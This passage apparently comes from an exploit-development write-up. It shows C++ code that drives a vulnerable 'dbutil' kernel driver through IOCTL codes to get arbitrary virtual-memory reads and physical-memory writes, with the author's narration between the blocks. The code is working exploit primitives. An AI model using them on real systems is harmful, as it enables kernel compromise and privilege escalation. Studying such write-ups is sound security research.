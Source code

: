 ```c++
// IOCTRL Codes for dbutil Driver Dispatch Methods
#define IOCTL_VIRTUAL_READ		    0x9B0C1EC4
#define IOCTL_VIRTUAL_WRITE	        0x9B0C1EC8
#define IOCTL_PHYSICAL_READ		    0x9B0C1F40
#define IOCTL_PHYSICAL_WRITE	    0x9B0C1F44

// Size of the parameters/header of each IOCTRL packet/buffer
#define VIRTUAL_PACKET_HEADER_SIZE	0x18
#define PHYSICAL_PACKET_HEADER_SIZE	0x10
#define PARAMETER_SIZE				0x8
#define GARBAGE_VALUE				0xDEADBEEF

BOOL Memory::VirtualRead(_In_ DWORD64 address, _Out_ void *buffer, _In_ size_t bytesToRead) {
	/* Reads VIRTUAL memory at the given address */
	// Creates a BYTE buffer to send to the driver
	const DWORD sizeOfPacket = VIRTUAL_PACKET_HEADER_SIZE + bytesToRead;
	BYTE* tempBuffer = new BYTE[sizeOfPacket];
	// Copies a garbage value to the first 8 bytes, not used
	DWORD64 garbage = GARBAGE_VALUE;
	memcpy(tempBuffer, &garbage, 0x8);
	// Copies the address to the second 8 bytes
	memcpy(&tempBuffer[0x8], &address, 0x8);
	// Copies the offset value to the third 8 bytes (offset bytes, added to address inside driver)
	DWORD64 offset = 0x0;
	memcpy(&tempBuffer[0x10], &offset, 0x8);
	// Sends the IOCTL_READ code to the driver with the buffer
	DWORD bytesReturned = 0;
	BOOL response = DeviceIoControl(Memory::DriverHandle, IOCTL_VIRTUAL_READ, tempBuffer, sizeOfPacket, tempBuffer, sizeOfPacket, &bytesReturned, NULL);
	// Copies the returned value to the output buffer
	memcpy(buffer, &tempBuffer[0x18], bytesToRead);
	// Deletes the dynamically allocated buffer
	delete[] tempBuffer;
	// Returns with the response
	return response;
}
```

After finishing the initialization code, I decided to start implementing the methods that send the IOCTL packet to the driver and give us access to the vulnerable handlers. Above, I've put an example of one of these methods along with the pre-processor defines from *memory.h*. These are some of the important constants that we discovered through the initial analysis and are re-used throughout most of the methods in the *Memory* class. 

```c++
BOOL Memory::PhysicalWrite(_In_ DWORD64 address, _In_ void* buffer, _In_ size_t bytesToWrite) {
	/* Reads PHYSICAL memory at the given address */
	// Creates a BYTE buffer to send to the driver
	const DWORD sizeOfPacket = PHYSICAL_PACKET_HEADER_SIZE + bytesToWrite;
	BYTE* tempBuffer = new BYTE[sizeOfPacket];
	// Copies a garbage value to the first 8 bytes, not used
	DWORD64 garbage = GARBAGE_VALUE;
	memcpy(tempBuffer, &garbage, PARAMETER_SIZE);
	// Copies the address to the second 8 bytes
	memcpy(&tempBuffer[0x8], &address, PARAMETER_SIZE);
	// Copies the write data to the end of the header
	memcpy(&tempBuffer[0x10], buffer, bytesToWrite);
	// Sends the IOCTL_WRITE code to the driver with the buffer
	DWORD bytesReturned = 0;
	BOOL response = DeviceIoControl(Memory::DriverHandle, IOCTL_PHYSICAL_WRITE, tempBuffer, sizeOfPacket, tempBuffer, sizeOfPacket, &bytesReturned, NULL);
	// Deletes the dynamically allocated buffer
	delete[] tempBuffer;
	// Returns with the response
```